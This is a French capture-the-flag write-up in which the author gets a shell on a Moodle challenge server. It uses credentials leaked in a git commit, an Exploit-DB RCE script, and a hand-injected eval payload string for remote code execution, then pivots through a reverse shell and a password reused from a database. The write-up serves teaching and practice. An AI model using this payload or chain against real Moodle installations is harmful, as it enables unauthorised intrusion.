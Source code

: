# Route Moi - Mel
## Présentation

Le but de ce challenge est d'obtenir un shell sur la machine en tant qu'utilisateur Mel.

**Catégorie :** Réaliste  
**Auteur :** Worty 
**Points :** 400

## Résolution

Le challenge débute sur un serveur web avec Moodle installé dessus.
Il y a un cours qui ne nous apprend pas grand chose, si ce n'est l'existance [d'un github](https://github.com/melTHEboss/php_exploit) appartenant à l'auteur.

En se rendant dessus, il y a un répo `php_exploit` avec un commit "OOOOOOPS wrong commit".  
En regardant le diff, on retrouve un fichier `config.php.bak` qui contient les identifiants Moodle ainsi que les infos de la bdd.  
On peut donc maintenant se connecter en tant que `meltheboss` sur le Moodle.

Après quelques rapides recherches, on se rend compte qu'il existe un exploit RCE pour cette version spécifique de moodle (https://www.exploit-db.com/exploits/46551).

La faille réside dans la fonction "question dynamique" qui peut être exploitée jusqu'à un `eval()` de code.

```
➜  php 46551.php url=http://217.160.15.230:36471 user=meltheboss pass=[Je l'ai plus] ip=x.x.x.x port=4242 course=2
```

Toute les étapes se passent bien, jusqu'à la dernière `[*] Adding Evil Question` qui ne fonctionne pas.
À ce moment là, deux possibilités : on corrige l'exploit ou on termine à la main.

On va donc terminer l'exploitation à la mano à l'aide de [cet article de blog](https://blog.ripstech.com/2018/moodle-remote-code-execution). Il nous suffit d'utiliser les éléments déjà créés par notre exploit, et d'y ajouter manuellement la fameuse question piégée avec le payload ``/*{a*/`$_GET[0]`;//{x}}``.

On est maintenant en mesure d'exécuter du code par le paramètre GET 0. On en profite pour se créer un reverse shell, et nous voila connecté en tant qu'utilisatuer `www-data`.

On doit maintenant réussir à se connecter en tant que `meltheboss`.  
Nos droits étant limités, on compte sur une réutilisation de mot de passe.

On dispose toujours des identifiants mysql récupérés sur le git. C'est le moment de voir si on peut en tirer quelque chose.  
Et en effet, il y a une base mysql "wordpress" avec une table "wp_users" dans laquelle se trouve un utilisateur `meltheboss` ainsi que son mot de passe en base64 (`P4ssw0rd0fm3l!!`).

Le flag se trouve dans `/home/meltheboss/flag.txt`.